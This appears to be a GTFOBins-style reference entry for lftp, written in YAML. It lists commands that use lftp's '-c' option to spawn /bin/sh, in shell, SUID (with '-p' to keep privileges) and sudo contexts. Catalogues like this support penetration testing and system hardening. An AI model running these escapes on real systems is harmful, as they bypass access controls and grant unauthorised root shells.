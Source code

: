   shell:
    - code: lftp -c '!/bin/sh'
  suid:
    - code: ./lftp -c '!/bin/sh -p'
  sudo:
    - code: sudo lftp -c '!/bin/sh'
---
